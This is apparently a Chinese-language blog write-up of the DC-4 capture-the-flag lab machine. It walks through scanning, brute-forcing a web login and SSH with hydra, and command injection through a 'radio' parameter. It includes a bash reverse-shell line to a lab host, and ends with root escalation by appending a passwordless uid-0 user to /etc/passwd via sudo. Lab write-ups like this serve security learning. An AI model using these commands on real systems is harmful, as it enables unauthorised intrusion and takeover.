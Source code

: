 ```yaml
---
title: DC-4
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pplover
authorDesc: 一个好奇的人
categories: 靶机
comments: false
date: 2021-02-17 19:23:58
tags: 渗透
keywords:
description:
photos: \img\article\20.png
---
```


# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24
nmap -sS 192.168.182.144
```

![image-20210217192904630](DC-4/image-20210217192904630.png)

# getshell

打开网页发现一个登录框

![image-20210217192928366](DC-4/image-20210217192928366.png)

直接暴力破解

![image-20210217194133752](DC-4/image-20210217194133752.png)

登录成功后

![image-20210217194657969](DC-4/image-20210217194657969.png)

可以查看文件列表之类的,下main也有语句You have selected :ls -l,这里应该是可以执行命令的,抓个包看一下

![image-20210217194802726](DC-4/image-20210217194802726.png)

果然存在radio参数,可以控制我们所执行的命令

![image-20210217194843794](DC-4/image-20210217194843794.png)

那么我们反弹一个shell

```
bash+-c+'bash+-i+>%26+/dev/tcp/192.168.182.137/2333+0>%261'
```

![image-20210217195246439](DC-4/image-20210217195246439.png)

在home目录下发现jim用户,里面有个backup文件放了old-password,拿来爆破一下ssh，

```bash
hydra -l jim -P jim.txt 192.168.182.144 ssh -s 22
```

成功爆出密码

<img src="DC-4/image-20210217200831728.png" alt="image-20210217200831728" style="zoom:67%;" />

连接ssh

```
ssh jim@192.168.182.144 -p 22  
```

# 提权

使用sudo -l

![image-20210217202918701](DC-4/image-20210217202918701.png)

搜索具备suid属性的文件

```
 find / -perm -u=s -type f 2>/dev/null
```

![image-20210217202932409](DC-4/image-20210217202932409.png)

没有发现可利用的命令

查看一下目录下的文件

![image-20210217203319576](DC-4/image-20210217203319576.png)

有一封邮件，去查看一下

![image-20210217203503877](DC-4/image-20210217203503877.png)



发现了charles用户给jim用户他的密码,^xHhA&hvim0y

su charles成功登录charles用户

sudo -l

![image-20210217203946006](DC-4/image-20210217203946006.png)

发现该用户有一个root权限的命令：teehee，查看该命令的使用方法：![image-20210217204222294](DC-4/image-20210217204222294.png)

有一个-a可以对指定文件进行追加，不覆盖，测试使用

![image-20210217204723170](DC-4/image-20210217204723170.png)

然后我们就可以尝试在/etc/passwd文件下添加新的用户使这个用户具有root权限

abc::0:0:::/bin/bash

用户名：是否有密码保护：uid(root)：全称：家目录：登陆状态

![image-20210217205350099](DC-4/image-20210217205350099.png)

成功添加![image-20210217205509669](DC-4/image-20210217205509669.png)

拿到flag